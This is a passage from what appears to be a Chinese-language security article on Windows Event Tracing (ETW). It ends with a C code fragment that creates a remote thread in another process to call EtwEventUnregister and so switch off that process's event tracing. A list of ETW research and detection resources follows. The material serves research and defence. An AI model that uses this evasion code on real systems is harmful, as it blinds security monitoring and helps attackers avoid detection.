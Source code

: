 ```
    pRtlCreateUserThread = (RtlCreateUserThread_t)
    GetProcAddress(m, "RtlCreateUserThread");

    // 创建注册句柄
    RegHandle           = (REGHANDLE)((ULONG64)node | (ULONG64)index &lt;&lt; 48);
    pEtwEventUnregister = (EventUnregister_t)GetProcAddress(m, "EtwEventUnregister");

    // 在远程进程中执行payload
    printf("  [ Executing EventUnregister in remote process.n");
    nt = pRtlCreateUserThread(hp, NULL, FALSE, 0, NULL,
      NULL, pEtwEventUnregister, (PVOID)RegHandle, &amp;ht, &amp;cid);

    printf("  [ NTSTATUS is %lxn", nt);
    WaitForSingleObject(ht, INFINITE);

    // EtwEventUnregister的读取结果
    GetExitCodeThread(ht, &amp;Result);
    CloseHandle(ht);

    SetLastError(Result);

    if(Result != ERROR_SUCCESS) `{`
      xstrerror(L"etw_disable");
      return FALSE;
    `}`
    disabled_cnt++;
    return TRUE;
`}`
```



## 0x03 更多研究和资料

下面是更多有关ETW的文章和工具。感兴趣的童鞋可以进一步阅读，点击链接即可。
<li>
[篡改Windows事件跟踪：背景，攻击和防御](https://medium.com/palantir/tampering-with-windows-event-tracing-background-offense-and-defense-4be7ac62ac63)，作者[Matt Graeber](https://twitter.com/mattifestation)
</li>
<li>
[ModuleMonitor](https://github.com/TheWover/ModuleMonitor),作者[TheWover](https://twitter.com/TheRealWover)
</li>
<li>
[FuzzySec](https://twitter.com/FuzzySec)的[SilkETW](https://github.com/fireeye/SilkETW)
</li>
<li>
[ETW浏览器](https://github.com/zodiacon/EtwExplorer),作者[Pavel Yosifovich](https://twitter.com/PetrBenes)
</li>
<li>
[EtwConsumerNT](https://github.com/wbenny/EtwConsumerNT)，作者[Petr Benes](https://twitter.com/PetrBenes)
</li>
- Endgame的[ClrGuard](https://github.com/endgameinc/ClrGuard)。
- [检测使用.NET的恶意软件—第1部分](https://blog.f-secure.com/detecting-malicious-use-of-net-part-1/)
- [检测使用.NET的恶意软件—第2部分](https://blog.f-secure.com/detecting-malicious-use-of-net-part-2/)
- [寻找内存中的.NET攻击](https://www.elastic.co/blog/hunting-memory-net-attacks)
- [使用ETW检测.NET开发的无文件C2Agent的恶意行为](https://work.delaat.net/rp/2019-2020/p56/report.pdf)
- [让ETW变得更强大](https://ruxcon.org.au/assets/2016/slides/ETW_16_RUXCON_NJR_no_notes.pdf)
- [从远程进程中枚举AppDomain](https://lowleveldesign.org/2016/08/23/enumerating-appdomains-in-a-remote-process/)
<li>